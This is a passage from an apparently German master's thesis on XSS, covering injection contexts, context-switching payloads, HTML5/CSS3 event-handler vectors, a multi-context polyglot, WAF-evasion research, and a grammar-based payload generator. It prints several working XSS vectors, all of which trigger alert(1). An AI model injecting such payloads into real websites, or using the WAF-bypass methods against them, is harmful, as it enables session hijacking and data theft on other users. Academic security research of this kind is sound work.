		Ein Payload besteht im Kern aus einem Stück vom Angreifer bestimmten JavaScript-Quellcode. Hier kann theoret2aisch jede Funktion einprogrammiert werden. Für die Ermittlung der Schwachstelle reicht es jedoch aus, eine einfache alert-Box öffnen zu lassen. Dies kann in JavaScript mit den Methoden ``alert'', ``promt'' oder ``confirm'' erziehlt werden. In den folgenden Erklärungen wird \textbf{PAYLOAD} als generischer Platzhalter definiert und verwendet.

\subsubsection{Payload-Kontexte}
		
		Damit dieser Quelltext ausgeführt werden kann, muss sich der Methodenaufruf im JavaScript-Kontext befinden. Die direkte Einbindung von JavaScript in ein HTML-Dokument kann mittels des script-Tags erfolgen, wie in Quelltext \ref{lst:context-script-tag} dargestellt ist.
		
\begin{lstlisting}[language=HTML,caption={Kontexte: Payload in script-Tags},label=lst:context-script-tag]
<script>PAYLOAD</script>
<script src="path/to/myFile.js"></script> // Content: PAYLOAD
<script src="://url.to/myFile.js"></script> // Content: PAYLOAD
\end{lstlisting}
		
		Das script-Tag kann JavaScript-Quelltext entweder direkt enthalten oder zur Laufzeit mittels des src-Attributs einbinden. Der Inhalt der ``myFile.js''-Datei ist dementsprechend ebenfalls im JavaScript-Kontext. Wird der Payload innerhalb einer JavaScript-Methode (Quelltextbeispiel: \ref{lst:context-javascript-method}) eingesetzt, muss zunächst aus der Applikationslogik ausgebrochen werden.
		
\begin{lstlisting}[language=HTML,caption={Kontexte: Payload in Zuweisungswerten},label=lst:context-javascript-method]
<script> var a = "PAYLOAD"; </script>
\end{lstlisting}
		
		Wird der Payload direkt in den HTML-Quelltext eingesetzt, muss entweder ein künstlicher JavaScript-Kontext mittels des script-Tags oder eines Attributes erstellt werden. Die Platzierung des Payloads hängt hier von der Programmierung der Webseite ab. Es können hierbei wieder verschiedene Umgebungen identifiziert werden. Der einfachste Fall ist die Platzierung zwischen einem öffnenden und schließenden HTML-Tag, wie im Quelltextbeispiel \ref{lst:context-between-html-tag} dargestellt.
		
\begin{lstlisting}[language=HTML,caption={Kontexte: Payload zwischen HTML-Tags},label=lst:context-between-html-tag]
<div>PAYLOAD</div>
\end{lstlisting}
		
		Alternativ wären auch Attributnamen bzw. -werte oder HTML-Kommentare eine mögliche Umgebung, in der ein Payload eingefügt werden könnte. Die dazugehörigen Beispiele sind in Quelltext \ref{lst:context-comment-attributes} abgebildet.
		
\begin{lstlisting}[language=HTML,caption={Kontexte: Payload  in anderen Umgebungen},label=lst:context-comment-attributes]
<!-- PAYLOAD -->

<img src="path/to/image-PAYLOAD.jpg" />
<input onclick="PAYLOAD" />
<input PAYLOAD="This is some alt text." />
\end{lstlisting}
		
		Bei einer dynamischen Webseite werden oft Attribute von HTML-Elementen hinzugefügt, verändert oder entfernt. Ein Beispiel hierfür sind JavaScript-Bildergalerien, welche bei aktiven Bildern eine CSS-Klasse entfernen oder hinzufügen. Im Quelltextbeispiel \ref{lst:context-comment-attributes} Zeile 5 könnte eine Sicherheitslücke ausgenutzt werden, um den Payload anstatt des alt-Attributes in den HTML-Quellcode einzufügen.
		
\subsubsection{Kontextwechsel zu JavaScript}
		
		Nachdem die verschiedenen Umgebungen für eingefügte Payloads identifiziert worden sind, muss noch in den richtigen Kontext gewechselt werden. Dieser ist notwendig, da sonst der JavaScript-Interpreter den eingefügten Code nicht ausführen kann. Um dies zu erreichen, muss der Payload so erweitert werden, dass dieser den HTML-Kontext schließt und in den JavaScript-Kontext wechselt.
		
		Abbildung \ref{fig:PayloadContextSwitch} zeigt, wie ein solcher Payload inklusive Kontextwechsel aufgebaut sein kann. Hierbei wir der Platzhalter wird in dem gezeigten Beispiel durch einen dreiteiligen Payload ersetzt. Im ersten Teil schließt der Wert für das Value-Attribut ab und wechselt damit in den HTML-Kontext. Dieser Teil besteht i.d.R. nur aus wenigen Zeichen und wird unter anderem als ``Outbreak'' bezeichnet.  Der zweite Teil des Payloads erstellt ein neues Attribut innerhalb des Input-Tags und wechselt damit in den JavaScript-Kontext. Beim letzten Teil des Payloads wird der auszuführende JavaScript-Code eingefügt, der vom vorhandenen Rest des Input-Tags abgeschlossen wird.
		
		\begin{figure}[htbp] 
			\centering
			
\includegraphics[width=\textwidth]{contents/images/PayloadContextSwitch}
			\caption{XSS-Beispiel: Kontextwechsel}
			\label{fig:PayloadContextSwitch}
		\end{figure}

\paragraph{Legende zu Abbildung \ref{fig:PayloadContextSwitch}}
		\begin{enumerate}
			\item[Blau] Ursprünglicher HTML-Code
			\item[Lila] Ausbruch aus dem aktuellen Kontext
			\item[Grün] Wechsel in den JavaScript-Kontext
			\item[Rot] Auszuführender JavaScript-Code
		\end{enumerate}
		
\subsection{Beispiele}
\subsubsection{\ac{XSS}-Angriff ohne Kontextwechsel}\label{ssec:example-without-context-change}
		Wie bereits in Quelltextbeispiel \ref{lst:context-javascript-method} und Zeile 4 des Quelltextbeispiels \ref{lst:context-comment-attributes} gezeigt, befinden sich die Payloads bereits in der richtigen Umgebung und werden beim Laden der Webseite ausgeführt.
		
\subsubsection{\ac{XSS}-Angriff mit Kontextwechsel}
		
		Um ein genaueres Verständnis vom Wechsel in den JavaScript-Kontext zu bekommen, wird im Folgenden das erste Level der Seite \url{https://xss-game.appspot.com/} betrachtet.
		
		Gegeben ist eine einfache HTML-Form mit einem Eingabefeld. Ziel ist es, aus dem HTML-Kontext, wie in der Abbildung \ref{fig:XSSGameLevelOneResponse} dargestellt, in den JavaScript-Kontext zu wechseln. Durch die Eingabe von \lstinline[language=html]!'><)(}{]["! lässt sich schnell ermitteln, ob wichtige Elemente von JavaScript herausgefiltert werden. 
		
		\begin{figure}[htbp] 
			\centering
			
\includegraphics[width=0.80\textwidth]{contents/images/XSSGameLevelOneRequest}
			\caption{XSS-Game: Level 1 - Eingabemaske}
			\label{fig:XSSGameLevelOneRequest}
		\end{figure}
		
		Die Eingabe aus Abbildung \ref{fig:XSSGameLevelOneRequest} wird ohne Veränderung innerhalb des Bold-Tags \lstinline[language=html]!(<b></b>)! ausgegeben, was dem HTML-Kontext entspricht.
		
		\begin{figure}[htbp] 
			\centering	
\includegraphics[width=0.80\textwidth]{contents/images/XSSGameLevelOneResponse}
			\caption{XSS-Game: Level 1 - Antwortseite}
			\label{fig:XSSGameLevelOneResponse}
		\end{figure}
\FloatBarrier
		Da die Webseite keinerlei Änderungen an der übergebenen Zeichenkette vornimmt, kann der Payload frei gewählt werden. Die gewählte Lösung für das obige Beispiel ist in Abbildung \ref{fig:XSSGameSolution} dargestellt. Im Gegensatz zur Abbildung \ref{fig:PayloadContextSwitch} ist hier keine Outbreak-Sequenz notwendig. Durch die umschließenden script-Tags kann der JavaScript-Kontext mit der Benutzereingabe definiert und übergeben werden.
		
		\begin{figure}[htbp] 
			\centering
			
\includegraphics[width=\textwidth]{contents/images/XSSGameSolution}
			\caption{XSS-Game: Level 1 - Lösung}
			\label{fig:XSSGameSolution}
		\end{figure}

\FloatBarrier
\subsubsection{Ausführen des Payloads}
		
		Oft reicht das Einfügen im richtigen Kontext nicht aus, um die Ausführung zu starten. Wie in Quelltextbeispiel \ref{lst:example-javascript-context-onerror} dargestellt, wird die Payload-Zeichenkette bereits in den JavaScript-Kontext im onerror-Event eingefügt. Jedoch wird der eingefügte Code nicht ausgeführt, solange das Bild korrekt geladen werden kann.
		
\begin{lstlisting}[language=HTML,caption={XSS-Angriffe: ohne Kontextwechsel},label=lst:example-javascript-context-onerror]
<img src="path/to/image-1.jpg" onerror="PAYLOAD" />
\end{lstlisting}
		
		Die Lösung des Problems ist eine Veränderung der HTML-Komponenten des img-Tags. Hierfür muss kurzzeitig aus dem JavaScript- in den HTML-Kontext gewechselt werden, um ein neues Attribut einfügen zu können. Der Payload wird dementsprechend so verändert, dass dieser ein onload-Attribut zum img-Tag hinzufügt und dadurch den src-Attributwert verändert. Das hinzugefügte id-Attribut ist bei einem richtigen Angriff optional und wurde im Quelltextbeispiel \ref{lst:solution-javascript-context-onerror} nur hinzugefügt, um die Lösung nicht zu sehr auszudehnen.
	
\newpage	
\begin{lstlisting}[language=HTML,caption={XSS-Angriffe: mit Kontextwechsel},label=lst:solution-javascript-context-onerror]
<img id=img1 src="path/to/image-1.jpg" onerror="alert(1)" onload="document.getElementById('img1').src=0;" />
\end{lstlisting}
		
		Der endgültige Payload entspricht hierbei der Zeichenkette aus Abbildung \ref{fig:PayloadExample}. Hierbei soll das Beispiel den Fall verdeutlichen, dass unvollständige Implementierungen Eingaben in onload-Events prüfen, jedoch andere, wie z.B. onerror-Events, auslassen. Dies erfordert validen Code, der den eigentlichen Schadcode auslöst.
		
		\begin{figure}[htbp] 
			\centering
			
\includegraphics[width=\textwidth]{contents/images/PayloadExample}
			\caption{XSS-Beispiel: Payload mit zwei JavaScript-Teilen}
			\label{fig:PayloadExample}
		\end{figure}
		
\subsubsection{Polyglottes \ac{XSS}}
		
		Ein polyglottes Programm besteht aus einer Mischung von JavaScript- und HTML-Quelltext. Im \ac{XSS}-Kontext beschreibt dieser Begriff einen funktionierenden Payload, der möglichst viele Kontexte abdeckt und JavaScript-Code ausführt.
		
		Einen solchen Payload (Quelltextbeispiel \ref{lst:PolyglottWithEightContexts}) beschreibt Shpend Kurtishaj in seinem Blog \cite{Kurtishaj2016}. Bei Abbildung \ref{fig:PolyglottSingleExample} ist der Payload beispielhaft im HTML-Kontext eingefügt und eingefärbt. In Abbildung \ref{fig:PolyglottSingleExample2} wird der selbe Payload im HTML-Kommantar-Kontext eingefügt. Die Färbung des Quelltextes ist hierbei künstlich erstellt und hat somit keine syntaktische Bedeutung.
		
		Hierbei entspricht die blaue Farbe dem ursprünglichen Quelltext und Rot dem für die Ausführung verantwortlichen Teil des Payloads. Der nicht verwendete Teil des Payloads ist ausgegraut.
		
\begin{lstlisting}[language=HTML,caption={XSS-Angriffe: Polyglott-Payload über acht Kontexte},label=lst:PolyglottWithEightContexts]
javascript:alert(1);"; onclick=alert(1);// '; onclick=alert(1);//--></style></script><button onclick=alert(1);>
\end{lstlisting}
		
		\begin{figure}[htbp] 
			\centering
			
\includegraphics[width=\textwidth]{contents/images/PolyglottSingleExample}
			\caption{XSS-Polyglott: Funktion des Payload im HTML-Kontext}
			\label{fig:PolyglottSingleExample}
		\end{figure}
		
		\begin{figure}[htbp] 
			\centering
			
\includegraphics[width=\textwidth]{contents/images/PolyglottSingleExample2}
			\caption{XSS-Polyglott: Funktion des Payload im Kommentar-Kontext}
			\label{fig:PolyglottSingleExample2}
		\end{figure}
		
		Eine vollständige Darstellung, wie der Polyglott in den verschiedenen Kontexten funktioniert, ist in Anhang \ref{fig:PolyglottFullExample} dargestellt.
		
\subsection{\acl{HTML} 5 \& \acl{CSS} 3}
		Durch die neue Version 5 der \acl{HTML} sind viele Elemente und Events hinzugekommen, die die Verwendung von Multimedia-Inhalten vereinfachen. Diese bieten jedoch auch zusätzliche Ansatzpunkte, um XSS-Angriffe zu implementieren. 
		
		Mit HTML5 wurde auch \ac{CSS} in der dritten Version (\ac{CSS}3) vorgestellt. Mit Hilfe dieser Technik ist es Webentwicklern möglich, komplexe Animationen und visuelle Effekte nur unter Verwendung von \ac{CSS}3 abzubilden. Für Angreifer eröffnen sich durch die hierfür hinzugefügten JavaScript-Events weitere Möglichkeiten, eigenen Code einzuschleusen.		
		
		\noindent In den folgenden Beispielen (Quelltextbeispiele: \ref{HTML5CLOSINGEVENTSXSS} - \ref{CSS3ANIMATIONXSS}) ist exemplarisch aufgeführt, wie die neuen Elemente von HTML5 für \ac{XSS} genutzt werden können \cite{HTML5Sec2017}. 
		
\subsubsection{Events in schließenden Tags}
		
		Seit der neuen HTML-Version dürfen JavaScript-Events in schließenden HTML-Tags verwendet werden. Bisher wurden diese nicht ausgeführt.
		
\begin{lstlisting}[language=HTML,caption={XSS-Angriffe: Eventhandler in schließenden HTML-Tags},label=HTML5CLOSINGEVENTSXSS]
</a onmousemove="alert(1)">
\end{lstlisting}
		
\subsubsection{Neue HTML Tags}
		
		Neue Browser-Versionen können immer mehr mediale Inhalte darstellen und einbinden. Neben den hier aufgezählten MathML- und Video-Elementen können auch neue Audio- und Grafik-Elemente eingebunden werden.
		
\begin{lstlisting}[language=HTML,caption={XSS-Angriffe: Ausnutzen der MathML-Umgebung},label=HTML5MATHMLXSS]
<math href="javascript:alert(1)">CLICKME</math>
\end{lstlisting}
\begin{lstlisting}[language=HTML,caption={XSS-Angriffe: Ausnutzen des video-Tags},label=HTML5VIDEOXSS]
<video src=0 onerror="alert(1)">
<video poster=javascript:alert(1)//></video>
\end{lstlisting}
		
		Für IFrames ist das neue srcdoc-Attribut zum Einbinden lokaler HTML-Elemente auf dem Server eingefügt worden. Wie im Quelltext \ref{HTML5SRCDOCXSS} zu sehen ist, wird der Payload so kodiert, dass dieser vor dem Ausführen erst vom Browser interpretiert werden muss.
		
\begin{lstlisting}[language=HTML,caption={XSS-Angriffe: Ausnutzen der srcdoc-Eigenschaft von IFrames},label=HTML5SRCDOCXSS]
<iframe srcdoc="&lt;img src&equals;x:x onerror&equals;alert&lpar;1&rpar;&gt;" />
\end{lstlisting}
		
\subsubsection{Nutzen des autofocus-Tags}
		
		Das autofocus-Attribut soll bei Aufruf der Webseite den Cursor direkt in das erste Eingabefeld setzen. Dieses Attribut kann in Verbindung mit anderen Mechanismen, wie zum Beispiel dem Ausblenden von Elementen oder dem Scrollen der Webseite, JavaScript-Events auslösen.
		
\begin{lstlisting}[language=HTML,caption={XSS-Angriffe: Ausnutzen der autofocus-Eigenschaft},label=HTML5AUTOFOCUSXSS]
<!--Trigger: Leaving the input-->
<input onblur=alert(1) autofocus><input autofocus> 
<!--Trigger: Loading the website-->
<body onscroll=alert(1)><br><br><br>...<br><br><input autofocus>
\end{lstlisting}
		
\subsubsection{Angriffe mittels CSS-Animationen}
		
		Durch die Erweiterung von CSS können Animationen in der Auszeichnungssprache definiert werden. Unter Verwendung des Animations-Events können Payloads eingefügt werden.
		
\begin{lstlisting}[language=HTML,caption={XSS-Angriffe: Ausnutzen von CSS3-Animationen},label=CSS3ANIMATIONXSS]
<!--Auslöser: Laden der Webseite-->
<style>@keyframes x{}</style>
<div style="animation-name:x" onanimationstart="alert(1)"></div>
\end{lstlisting} % (✔
\section{Related Work}\label{ssec:relatedWork}

Im Folgenden werden Arbeiten vorgestellt, die Relevanz für das Thema oder sonstigen Einfluss auf diese Arbeit haben.

\subsection{Allgemeines}\label{ssec:relatedCommon}

Ein Ansatz, der zwar nicht speziell für \ac{XSS}-Angriffe entwickelt wurde, jedoch für die Generierung von solchen Angriffen verwendet werden kann, ist das Open Source Projekt ``Dharma'' \cite{Diehl2015}. Durch die Verwendung einer kontextfreien Konstruktionsgrammatik generiert die Anwendung zufällig aufgebaute Eingaben. Während dieser Masterthesis wurde eine \ac{XSS}-Grammatikdefinition für Dharma entwickelt \cite{Borgardt2017} und dem Open Source Projekt hinzugefügt, sodass ein direkter Vergleich der generierten \ac{XSS}-Payloads erstellt werden kann.

Hai-Feng Guo und Zongyan Qiu entwickelten einen weiteren grammatikbasierten Algorithmus für Testfälle \cite{Eds2013}. Dieser beschäftigte sich mit den Wahrscheinlichkeiten von Endlosschleifen bei der Generierung von Testfällen. Die Autoren verwendeten hierbei zwei Vorgehensweisen. Zum Einen wird bei jeder Rekursion die Wahrscheinlichkeit neu verteilt, sodass es weniger wahrscheinlich ist, den selben Programmpfad wiederholt zu betreten. Hierbei wird jede Rekursion in einer globalen Tabelle aufgezeichnet. Zum Anderen werden Abdeckungsbäume verwendet, um eine Terminierung sicherzustellen.

Des Weiteren gibt es eine Arbeit von Ravichandhran Madhavan et al., welche sich mit dem Vergleich und dem semantischen Prüfen von kontextfreien Grammatiken beschäftigt \cite{Madhavan2015}. Der entwickelte Algorithmus zum Bestimmen von Gleichheit bzw. zum Auffinden von Diskrepanzen wurde als Bestandteil eines Nachhilfe-Systems implementiert. Das Nachhilfe-System diente als automatisches Bewertungssystem von kontextfreien Grammatiken. In der Evaluation des Systems konnte das System 95\% der eingereichten Grammatiken automatisch auswerten - davon 74\% widerlegen und 21\% als valide einstufen. Die übrigen 5\% der eingereichten Grammatiken konnte das Programm nicht automatisch auswerten.

Shay Artzi et al. erarbeiteten eine Möglichkeit, Fehler in Webapplikationen zu finden, indem Sie dynamische Testfälle generierten \cite{Artzi2010}. Dabei suchten die Autoren zwei Fehlerarten: Fehler während der Ausführung (``execution failures'') und HTML-Fehler. Als Ausführungsfehler werden hierbei Fehler bezeichnet, die serverseitig geschehen und die ordnungsgemäße Ausführung des Programms be- oder verhindern. HTML-Fehler hindern zwar nicht den Ablauf der Applikation, führen jedoch dazu, dass der Browser die Webseite nicht korrekt interpretieren und darstellen kann. Im Rahmen ihres Projekts entwickelten die Autoren eine Anwendung auf Basis des PHP-Interpreters, der selbstständig Eingaben generiert und an die Webseite sendet. Im Anschluss wird die Antwort der Webseite ausgewertet und der Webseitenstatus (Datenbank, Session und Cookies) zurückgesetzt. Auf Basis der ausgewerteten Antworten werden neue Testfälle generiert.

P.-C. Héam et al. entwickelten ``Seed'', ein in Java geschriebenes Programm zur Generierung von rekursiven Datenstrukturen \cite{Heam2011}. Die Generierungsgrammatik wird als XML beschrieben und dem Programm übergeben. Danach generiert die Software einen oder mehrere Datensätze. Hierbei kann die Höhe der generierten Grammatikbäume festgelegt werden.

Einen präventiven Ansatz, um \ac{XSS}-Angriffe während der Entwicklung vorzubeugen, erarbeiteten Shahriar et al. in ihrer Arbeit ``MUTEC: Mutation-based testing of cross site scripting'' \cite{Shahriar2009}. Die entwickelte Software ``MUTEC'' testet anhand von definierten Operatoren den Quellcode von Webseiten auf \ac{XSS}-Schwachstellen. Hierbei wird der Quelltext auf spezielle Quellcode-Fragmente durchsucht und durch die Operatoren abgeändert. Auf diesem Weg lassen sich laut den Autoren Schwachstellen ermitteln, bevor die Webseite veröffentlicht wird.

Ein cloud-basiertes Verfahren, um Testing-Tools zu prüfen, haben Krishnaveni et al. entwickelt \cite{Krishnaveni2017}. Unter anderem wurden Softwarelösungen wie die Burp Suite und ZAP (Zed Attack Proxy Project) getestet. Evaluiert wurden die Resultate mittels eines Cloud Test Manager Frameworks, das die Amazon Web Service API verwendet. Die Ergebnisse wurden anhand der erfolgreichen Payloads im Vergleich zur gesendeten Anzahl von Payloads berechnet.

\newpage
\subsection{\ac{XSS}-Angriffe und Mutation}\label{sec:attacksAndMutation}

Hydara et al. haben im Jahr 2014 eine Übersicht über Veröffentlichungen mit dem Thema \ac{XSS} veröffentlicht \cite{Hydara2015a}. In diese Auswertung wurden 115 Studien aus verschiedenen Quellen zum Thema \ac{XSS} aus dem Zeitraum 2000 bis 2012 einbezogen. Die Autoren kamen zu dem Ergebnis, dass im Bereich \ac{XSS} noch sehr aktiv geforscht wird.

Eine Einführung in das Thema \ac{XSS}-Attacken bietet die Arbeit von D. Endler \cite{Endler2002}. Darin beschreibt er insbesondere die Gefahr von reflektierten \ac{XSS}-Attacken anhand eines Session-Hijacking-Angriffs. Insbesondere erläutert er die Gefahren von reflektierten \ac{XSS}-Angriffen und den Möglichkeiten, diese gegen andere Benutzer zu nutzen.

In seiner Arbeit entwickelte Khalil Bijjou ein Kommandozeilenprogramm WAFNinja, welches verschiedene Payloads an eine Webseite schickt und auswertet \cite{Bijjou2015}. Anschließend werden die Angriffe anhand der zurückgelieferten Antworten ausgewertet. Unter anderem wird so ermittelt, welche Zeichen durch die \ac{WAF} herausgefiltert werden, um die nächsten Angriffe zu optimieren.

SecuBat \cite{Kals2006} von Kals et al. ist ebenfalls eine Anwendung, um Angriffe gegen eine von einer \ac{WAF} geschützten Webseite zu fahren. Diese Software gliedert sich in drei Komponenten (\gls{Crawler}-, Angriff- und Analyse-Modul). Verwendete \ac{XSS}-Payloads werden jedoch durch Kodierung in beispielsweise Hexadezimal verschleiert. Für die Angriffskomponente haben die Autoren zwei Plugins für jeweils \ac{XSS}- und SQL-Injections entwickelt. Die Antwort der Webseite wird bei Rückmeldung auf bestimmte Stichwörter (Fehlermeldungen bei SQL-Injections) bzw. den gesendeten Angriff durchsucht.

Vogt et al. verfolgten den Ansatz eine zusätzliche Sicherheitsschicht in den Browser des Benutzers einzubauen, um so den gelieferten Quelltext auf Zugriffe persönlicher oder sicherheitskritischer Daten zu prüfen \cite{Vogt2007}. Hierdurch ließen sich sowohl reflektierte als auch persistente \ac{XSS}-Angriffe abwehren. Die Evaluation wurde mit einem Add-on für den Firefox Browser und über einer Million Webseiten durchgeführt. Von allen aufgerufenen Seiten beinhalteten rund 9\% einen \ac{XSS}-Zugriff, hierbei bestand der größte Teil aus Werbe- und Analyseseiten.

Heiderich et al. beschäftigten sich mit \ac{XSS}-Angriffen unter Verwendung des HTML-Attributs ``innerHtml'', das vor allem häufig in ``\acs{WYSIWYG}''-Texteditoren oder Webmail-Clients verwendet wird \cite{Heiderich2013}. Durch einen Implementierungsfehler in verschiedenen Browsern verschwanden \gls{Backtick}s, wodurch der restliche Quelltext mutierte und so schädlicher Code an den Editor übergeben werden konnte.

Wang et al. entwickelten einen Ansatz zur kombinierten Mutation von \ac{XSS}-Angriffen \cite{Wang2010}. Hierbei verwendeten die Autoren bereits vorhandene, öffentlich zugängliche Angriffe von Seiten wie \url{http://xssed.com/}. Der entwickelte Algorithmus zerlegt zunächst die Angriffe in Einzelteile und generiert so ein Angriffsmodell. Anschließend wird mit einer Abwandlung des ``Viterbi''-Algorithmus \cite{Viterbi1967} ein neuer \ac{XSS}-Angriff generiert. Der Viterbi-Algorithmus ermöglicht zum Beispiel die Berechnung der kürzesten Distanz aus einer Menge an Knoten.

Tripp et al. entwickelten einen lernenden Algorithmus, welcher sich aus mehr als 500.000.000 \ac{XSS}-Angriffen immer passendere Angriffe wählen kann \cite{Tripp2013}. In ihrer Ausarbeitung erläutern die Autoren, dass es grundlegend zwei Wege gibt einen \gls{Sanitizer} zu umgehen. Entweder ist die WAF inkorrekt, sodass ein Angriff nicht als solcher erkannt wird, oder es gibt eine Eingabe, die durch die Veränderung des WAF zu einem validen (erfolgreichen) \ac{XSS}-Angriff umgewandelt wird. Der Lernprozess des Algorithmus gleicht die Antworten der Webseite mit den gesendeten Angriffen ab. Wird beispielsweise das Wort ``script'' von der WAF entfernt, werden zukünftig nur noch Angriffe ohne diese Elemente gewählt.

Eine Methode, um JavaScript-Quellcode an \ac{WAF} vorbei zu schmuggeln, beschreibt Lupac in seiner Arbeit \cite{Luptak2011}. Hierbei wird funktionsfähiger JavaScript-Quelltext aus den Grundbestandteilen der Sprache konstruiert. Anhand eines Beispiels konstruierte Lupac den Befehl ``alert(1)'' aus den sechs Zeichen ``['', ``]'', ``('', ``)'', ``!'' und ``+''. Mittlerweile gibt es für diese Art von Verschleierungstaktik eigene Implementierungen, wie zum Beispiel ``JSFuck'' \cite{Kleppe} oder ``6charsJS'' \cite{Pollet-Villard2016}.

\subsection{Grammatik-basierte Ansätze}\label{ssec:grammar-based-approaches}

LigRE ist ein Reverse-Engineering-Ansatz, der die zu testende Webseite analysiert und die Wege der Datenströme ermittelt \cite{Duchene2013}. Zusätzlich werden besonders Erfolg versprechende Pfade und \ac{XSS}-Angriffe priorisiert und somit verstärkt verwendet.

Mit KameleonFuzz haben Duchene et al. einen grammatik-basierten Ansatz entwickelt \cite{Duchene2014}, der unter Verwendung ihres Reverse-Engineering Ansatzes die generierten \gls{payload}s bewerten und entsprechend anpassen kann. Die Ausarbeitung umfasst neben dem Finden von erfolgreichen Angriffen auch das Erkennen von sogenannten ``Macro-States'', welche einen veränderten globalen Status der Webseite beschreiben. Diese sind vor allem eine wichtige Komponente der persistenten \acl{XSS}-Attacken.

Einen auf KameleonFuzz aufgebauten Ansatz haben Wies et. al.  ausgearbeitet \cite{Wies2014}. In dieser Arbeit werden die generierten Angriffe als Gene bezeichnet und anhand einer ``Fitness''-Funktion bewertet. Ein Teil dieser ``Fitness'' wird durch das Zählen von bestimmten, für HTML- bzw. JavaScript-Code wichtiges Zeichen berechnet. Hierzu wird für jedes enthaltene Zeichen die Fitness des Angriffsmusters erhöht. Welche weiteren Kriterien für die ``Fitness'' ausschlaggebend sind, wird hingegen nicht weiter erwähnt.

Bozic et al. verwendeten in ihrem Ansatz eine \ac{UML} gestützte Vorgehensweise \cite{Bozic}. Zur Generierung der Angriffe wird die Angriffsgrammatik von Duchene et. al. mit zusätzlichen Bedingungen verwendet \cite{Duchene2013a}. Dies hat in der Arbeit von Bozic die Wahrscheinlichkeit auf erfolgreiche Angriffe deutlich verbessert. % (✔
\newpage
\chapter{Implementierung}

Ziel dieser Arbeit ist die Entwicklung und Evaluation eines kontextabhängigen Generators, der in Abhängigkeit der Antworten der Webseite Payloads generiert. Als Basisdaten werden Konstruktionsregeln definiert, die während der Generierung mit Elementen aufgefüllt werden. Als Elemente werden unter anderem Schlüsselworte und elementare Zeichen von JavaScript und HTML bezeichnet. Die verwendeten Zeichen und Elemente der Payloads werden bei der Generierung abhängig vom Potential gewählt.

Aus dieser Idee lässt sich ein grundlegender Prozess für die Implementierung ableiten. Zunächst müssen Elemente definiert werden, die verwendet werden, um Payloads zu erzeugen. Welche Struktur die Payloads annehmen, wird durch eine Konstruktionsgrammatik definiert. Zusätzlich müssen die Elemente bzw. die erzeugten Payloads untereinander vergleichbar sein, sodass automatisch der am besten geeignete Payload gewählt werden kann. Schließlich muss das Programm mit dem \ac{SUT} kommunizieren können, um einerseits den Payload an die Webseite zu senden und andererseits die Antwort zu empfangen. Wurde im ersten Durchlauf der Payload nicht reflektiert, muss die Antwort der Webanwendung ausgewertet und die Generierung angepasst werden, um bei der nächsten Generierungsrunde eine höhere Erfolgswahrscheinlichkeit zu erzielen.

\section{Grundkonzept}

